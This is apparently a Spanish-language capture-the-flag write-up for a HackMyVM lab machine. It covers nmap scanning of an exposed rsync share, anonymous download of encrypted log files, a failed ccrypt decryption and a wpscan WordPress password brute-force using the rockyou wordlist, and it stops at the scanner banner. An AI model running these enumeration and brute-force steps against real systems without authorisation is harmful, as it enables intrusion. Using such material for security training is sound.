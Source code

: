 Luego de ver la pagina veo que esta hecha en Wordpress y tenemos ese puerto Rsync

Hacemos un scaneo a el rsync 
```bash
❯ nmap -sV --script "rsync-list-modules" -p 873 10.0.2.33 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 19:27 EDT
Nmap scan report for anaximandre.hmv (10.0.2.33)
Host is up (0.00030s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  share_rsync    	Journal

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
```
Vamos a enumerar los archivos
```bash
❯ rsync rsync://10.0.2.33/share_rsync  
drwxr-xr-x          4,096 2022/11/26 10:23:01 .
-rw-r-----         67,719 2022/11/26 10:19:33 access.log.cpt
-rw-r-----          4,206 2022/11/26 10:19:53 auth.log.cpt
-rw-r-----         45,772 2022/11/26 10:19:53 daemon.log.cpt
-rw-r--r--        229,920 2022/11/26 10:19:53 dpkg.log.cpt
-rw-r-----          4,593 2022/11/26 10:19:33 error.log.cpt
-rw-r-----         90,768 2022/11/26 10:19:53 kern.log.cpt
```
Vamos a descargar los archivos
```bash
❯ rsync rsync://10.0.2.33/share_rsync/access.log.cpt .
❯ rsync rsync://10.0.2.33/share_rsync/auth.log.cpt .
❯ rsync rsync://10.0.2.33/share_rsync/daemon.log.cpt . 
❯ rsync rsync://10.0.2.33/share_rsync/dpkg.log.cpt .  
❯ rsync rsync://10.0.2.33/share_rsync/error.log.cpt . 
❯ rsync rsync://10.0.2.33/share_rsync/kern.log.cpt . 
```

Buscando como leer esos archivos cpt veo que se puede usar una herramienta llamada ``ccrypt``. 

Intentando desencriptar, me pide un decryption key el cual no tengo

```bash
❯ ccrypt -d access.log.cpt 
Enter decryption key: 
```

Procedo a ver bien la pagina realizo un wpscan para ver que podemos encontrar y nos da unas credenciales.

```bash
❯ wpscan --url "http://10.0.2.33" -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.0.2.33/ [10.0.2.33]
[+] Started: Sun Mar 19 18:58:29 2023
```
